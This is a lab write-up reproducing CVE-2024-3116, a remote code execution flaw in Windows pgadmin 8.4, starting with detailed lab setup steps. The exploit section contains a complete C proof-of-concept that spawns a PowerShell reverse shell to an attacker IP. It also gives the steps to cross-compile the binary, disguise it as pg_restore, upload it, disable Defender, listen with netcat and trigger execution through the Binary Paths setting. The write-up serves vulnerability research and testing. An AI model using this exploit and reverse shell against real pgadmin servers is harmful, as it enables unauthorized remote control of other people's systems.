


# CVE-2024-3116_RCE_in_pgadmin_8.4
Making a lab and testing the CVE-2024-3116, a Remote Code Execution in pgadmin &lt;=8.4

I used [this article](https://ayoubmokhtar.com/post/remote_code_execution_pgadmin_8.4-cve-2024-3116/) as a baseline.

## Installation of the lab

First thing first a little comment on this lab, the documentation of pgadmin is pretty bad and I didn't find any trace of anybody installing pgadmin on windows...

1. The author said the vulnerability is present only on windows so I'll use the windows 11 VM given by Microsoft ([here](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/))
2. After installing the VM, I Install *python 3.10.0* (I made some test with 3.11 and 3.12 but I get some dependancies issues so lets go with 3.10)
3. Install *postgresql 16.2* (without pgadmin, and I put password as a password for my postgresql, not very important in our case)
4. It’s recommended to install pgadmin in a python virtualenv, I tried and that didn’t worked so F*CK VENV ! 
5. update pip : `python -m pip install -U pip`
6. Install wheel : `python -m pip install wheel`
7. Download source : https://www.postgresql.org/ftp/pgadmin/pgadmin4/ > 8.4 > pip > download .whl file
8. Install pgadmin4 : `python -m pip install C:\Users\User\Downloads\pgadmin4-8.4-py3-none-any.whl`
    - Folder of installation : `C:\Users\User\AppData\Local\Programs\Python\Python310\Lib\site-packages\pgadmin4`
9. Let’s configure : 
    - In the file : `C:\Users\User\AppData\Local\Programs\Python\Python310\Lib\site-packages\pgadmin4\config_local.py`, add the following line :
    ```
    LOG_FILE = r'C:\Users\User\pgadmin4\log\pgadmin4.log'
    SQLITE_PATH = r'C:\Users\User\pgadmin4\pgadmin4.db'
    SESSION_DB_PATH = r'C:\Users\User\pgadmin4\sessions'
    STORAGE_DIR = r'C:\Users\User\pgadmin4\storage'
    SERVER_MODE = True 
    ```
    - Create the folders that doesn’t exist (pgadmin4\log, pgadmin4\sessions, pgadmin4\storage)
    - Create the folder : `C:\Users\User\AppData\Roaming\pgAdmin` (need for setup.py)
    - In the installtion folder of pgadmin4 (see 8) launch : `python site-packages/pgadmin4/setup.py setup-db`, I put *Email = toto@exploit.loc* and *Password = password* (this email and password are important because we need them to connect to pgadmin)

Then the web server : 
1. Install XAMPP (can uncheck everything, just need apache)
2. Add the environment variable : `MOD_WSGI_APACHE_ROOTDIR = C:/xampp/apache`
3. Install mod-wsgi : `pip install mod-wsgi`
4. Get the configuration : `mod_wsgi-express module-config`
5. Copy the result of the previous command at the end of the `httpd.conf` file of apache
6. To finish launch the server with (from the installation folder of pgadmin): `mod_wsgi-express start-server .\pgAdmin4.wsgi` (should be accessible on port 8000)


## Let’s exploit

I'll exploit the vulnerability from a Kali machine which is on the same network as the pgadmin.
- Kali = 192.168.112.128
- Windows = 192.168.112.162

Again : This exploit works only against Windows pgadmin ! And we need a valid user in order to exploit this vulnerability !

1. I want a reverse shell so I took the PoC on the blogpost linked at the beginning of this file, I put the IP of my Kali in order to test :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
	if (argc > 1 && strcmp(argv[1], "--version") == 0) {
    	system("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('192.168.112.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
	} else {
    	printf("Usage: %s --version\n", argv[0]);
	}
	return 0;
}
```
2. Because the PoC is a C program for windows let’s use a cross-compiler :
    - Installing a cross-compiler : `sudo apt-get install mingw-w64`
    - Create a file with PoC previously mentionned and compile with : `x86_64-w64-mingw32-gcc -o pg_restore poc.c`
    
3. The name of the binary must be a *pg_* (or *psql*) in order to be executed, must be a known postgresql tool
4. Launch burp and configure your browser to pass by burp in order to see the upload request
5. Let’s upload this file via the interface (after login with *toto@exploit.loc*) : `Tools > Import/Export Servers > ‘click on the little folder icon’ > ‘Click on the three dot in the right upper corner of the select file window and select upload’ > ‘select the binary PoC’`

6. To check go on windows then in the storage folder we have created (*C:\Users\User\pgadmin4\storage*) we can see the file
7. ALSO VERY IMPORTANT the response of the upload request contain the path to the *exe* we uploaded, will be important for after
8. Launch a netcat (`nc -lvnp 9001`) in order to receive the response : *IMPORTANT !!!!!!!!! Defender will prevent the execution of the binary (so deactivate defender)*
9. Then we will go on the interface and click on : `File > Preferences > Binary Paths` and add the path we get in the response to the upload file in the textbox saying *Enter binary path...* in front of postgresql 16, finally click on the icon in the textbox in order to trigger the PoC

10. Enjoy !


## References

All this link helped me installing pgadmin on windows :
- https://www.digitalocean.com/community/tutorials/how-to-install-configure-pgadmin4-server-mode
- https://www.pgadmin.org/docs/pgadmin4/development/server_deployment.html
- https://pypi.org/project/mod-wsgi/
- https://stackoverflow.com/questions/59801387/how-to-install-mod-wsgi-into-apache-on-windows
- https://stackoverflow.com/questions/44670209/how-to-compile-c-code-in-linux-to-run-on-windows